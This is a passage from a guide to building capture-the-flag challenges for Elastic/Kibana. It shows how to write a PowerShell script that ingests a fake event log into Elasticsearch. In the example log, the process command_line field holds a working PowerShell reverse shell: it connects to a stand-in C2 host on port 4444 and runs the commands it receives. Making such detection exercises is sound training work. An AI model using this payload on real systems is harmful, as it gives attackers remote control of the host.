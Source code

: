 ```json
```


### 5. (Optional) Create an Elastic Import Script

If your challenge requires specific data to be set up in the Elastic stack, create a PowerShell script named `elastic_import_script.ps1` in the challenge directory. This script should define a function that builds the challenge data as a PowerShell object, converts it to JSON, and ingests it into Elasticsearch using the provided URL and helper functions.

**Key concepts:**
- Use `[PSCustomObject]` to build your event/log data.
- Include relevant fields such as `@timestamp`, `message`, `tags`, `host`, and `process`.
- Convert the object to JSON with `ConvertTo-Json`.
- Use a custom ingest URL for the challenge.
- Call a helper function (e.g., `Invoke-Ingest-Elasticsearch-Documents`) to send the data.

**Example:**
```powershell
function challenge {
    $dateNow = ($(Get-Date -AsUTC)).ToString("o")
    $challenge = [PSCustomObject]@{
        '@timestamp' = $dateNow
        message = "Just a regular event log, nothing to see here."
        tags = @("critical")
        host = [PSCustomObject]@{
            name = "not_nics_machine"
        }
        process = [PSCustomObject]@{
            name = "yams.exe"
            command_line = @'
            powershell -NoProfile -WindowStyle Hidden -Command "& {
            $host = 'not-a-malware-c2';
            $port = 4444;
            $secret_key_1 = "{ctf_flag_example}"
            $client = New-Object System.Net.Sockets.TCPClient($host, $port);
            $stream = $client.GetStream();
            [byte[]]$buffer = New-Object byte[] 1024;
            while (($bytesRead = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
                $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $bytesRead);
                $result = iex $data 2>&1 | Out-String;
                $response = (New-Object -TypeName System.Text.ASCIIEncoding).GetBytes($result);
                $stream.Write($response, 0, $response.Length);
                $stream.Flush();
            }
            $client.Close();
'@
        }
    } | ConvertTo-Json
    $ingestIndexIDURL = $Elasticsearch_URL+"/logs-kibana-ctf/_create/e2N0Zl93b3dfbmljZV9qb2JfZmluZGluZ190aGlzX2N1c3RvbV9pZH0"

    $result = Invoke-Ingest-Elasticsearch-Documents -documentToIngest $challenge -customUrl $ingestIndexIDURL

    return Write-Host "Challenge 5 imported." -ForegroundColor Green
}
```
